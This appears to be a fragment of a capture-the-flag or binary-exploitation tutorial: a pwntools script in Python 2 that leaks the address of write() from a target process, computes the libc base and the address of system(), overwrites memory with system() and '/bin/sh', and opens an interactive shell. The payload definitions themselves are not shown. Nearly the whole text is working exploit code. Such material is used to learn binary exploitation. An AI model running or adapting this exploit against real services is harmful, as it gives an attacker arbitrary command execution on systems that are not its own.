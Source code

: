 ``` python
# payload 1
io.recvuntil('Hello, World\n')
io.send(payload1)
sleep(1)

# calculate some address
write_addr = u64(io.recv(8))
print "[+] write() address: " + hex(write_addr)
libc_base = write_addr - libc_write
print "[+] libc base address: " + hex(libc_base)
system_addr = libc_base + libc_system
print "[+] system() address: " + hex(system_addr)

# payload 2
io.recvuntil('Hello, World\n')
io.send(payload2)
sleep(1)
io.send(p64(system_addr) + '/bin/sh\x00')

# payload 3
io.recvuntil('Hello, World\n')
io.send(payload3)
io.interactive()

```
